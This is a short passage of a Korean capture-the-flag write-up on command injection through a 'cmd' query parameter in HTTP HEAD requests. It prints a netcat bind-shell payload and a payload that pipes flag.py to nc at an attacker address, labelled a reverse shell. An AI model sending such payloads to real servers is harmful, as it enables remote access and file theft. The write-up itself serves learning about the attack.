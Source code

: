 그럼 간단하게 아래의 Payload를 보내면 될 것이다.

```
HEAD /?cmd=nc+-lvp+[portnum] HTTP/1.1
```

공격대상 서버에 해당 payload로 port를 열고 공격자가 접속을 하면 되지만, 이 문제에서는 특정 포트를 열어도 포트포워딩 설정을 할 수 없어 bind shell로는 결과를 알 수 없다고 한다.

이 부분은 다음에 한번 다시 공부해보자.

<br>

### 4. Reverse Shell

위 방법은 공격자가 특정 port를 열어 서버가 접속하도록 하는 방법이다.

```shell
cat flag.py | nc [myIP] [portnum]
```

위와 같은 명령어를 수행하도록 시스템 함수에 전달해주면 된다.

그럼 간단하게 아래의 Payload를 보내면 될 것이다.

```
HEAD /?cmd=cat+flag.py|nc+[myIP]+[portnum] HTTP/1.1
```

로컬에서 포트를 열어주고 서버를 연결시켜보면 플래그가 전송되는 것을 확인할 수 있다고 한다.

이 부분도 다음에 한번 다시 공부해보자.
